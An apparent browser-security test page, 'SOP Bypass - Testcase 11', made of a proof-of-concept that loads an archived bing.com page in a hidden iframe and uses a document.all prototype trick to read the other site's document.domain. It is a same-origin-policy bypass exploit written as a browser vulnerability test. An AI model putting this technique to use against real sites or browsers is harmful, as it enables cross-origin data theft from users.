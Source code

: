 ```yaml
---
layout: default
title: SOP Bypass - Testcase 11
permalink: /sop/new/11
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunc2()">
<script>
function myfunc2() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831120303/https://www.bing.com";
    frame.width = "0px";
    frame.height = "0px";
    frame.onload = function() {
        frame.onload = null;
        frame.contentWindow[0].location = "data:text/html,<script>(" + function() {
            window.name = "alert";
            obj = document.all;
            obj.__proto__ = parent;
            alert(obj.alert.constructor("return document.domain")());
        } + ")()</script>";
    }
}
</script>

**Note:**
If document.domain points to bing.com, it has resulted in a SOP Bypass.
